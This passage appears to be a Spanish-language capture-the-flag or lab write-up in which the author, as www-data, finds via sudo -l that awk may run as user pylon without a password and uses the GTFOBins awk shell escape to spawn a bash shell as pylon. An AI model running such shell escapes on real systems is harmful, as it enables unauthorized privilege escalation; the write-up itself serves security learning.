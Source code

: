 Vamos a probar lo básico:

```
www-data@b24b67d706ea:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on b24b67d706ea:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on b24b67d706ea:
    (pylon) NOPASSWD: /usr/bin/awk
www-data@b24b67d706ea:/$ 

```

Ok. vemos que podemos ejecutar como el usuario pylon sin password el comando /usr/bin/awk

No estoy familiarizado con awk, así que busco info y encuentro esto:

```
¿QUÉ NOS PERMITE REALIZAR EL COMANDO AWK?
Los usos básicos que podemos dar al comando Awk son los siguientes:
    1. Buscar palabras y patrones de palabras y reemplazarlos por otras palabras y/o patrones.
    2. Hacer operaciones matemáticas.
    3. Procesar texto y mostrar las líneas y columnas que cumplen con determinadas condiciones.
    4. Etc.
Nota: En términos generales el comando awk permite procesar y modificar el texto según nuestras necesidades.
```
No me sirve de mucho, asi que voy a ver en GTFOBins.






```
.. / awk 

Shell
It can be used to break out from restricted environments by spawning an interactive system shell.
      awk 'BEGIN {system("/bin/sh")}'
```

Pues vamos a ello:

```
www-data@b24b67d706ea:/home$ sudo -u pylon /usr/bin/awk 'BEGIN {system("/bin/bash")}'                               
<-u pylon /usr/bin/awk 'BEGIN {system("/bin/bash")}'                                                                
ls                                                                                                                  
pinguino                                                                                                            
pylon                                                                                                               
whoami                                                                                                              
pylon                                                                                                               
         
```
Somos pylon!
